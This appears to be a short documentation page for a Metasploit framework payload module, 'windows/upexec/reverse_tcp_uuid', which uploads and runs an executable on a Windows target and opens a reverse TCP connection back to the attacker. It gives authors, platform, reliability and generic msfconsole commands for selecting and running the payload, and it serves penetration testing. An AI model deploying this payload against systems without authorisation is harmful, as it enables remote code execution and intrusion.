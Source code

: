 ## Windows Upload/Execute, Reverse TCP Stager with UUID Support

Uploads an executable and runs it (staged). Connect back to 
the attacker with UUID Support


## Module Name
payload/windows/upexec/reverse_tcp_uuid

## Authors
* vlad902
* sf
* hdm
* OJ Reeves





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/upexec/reverse_tcp_uuid
msf payload(reverse_tcp_uuid) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_uuid) > set TARGET <target-id>
msf payload(reverse_tcp_uuid) > show options
   ... show and set options ...
msf payload(reverse_tcp_uuid) > run
```
    
    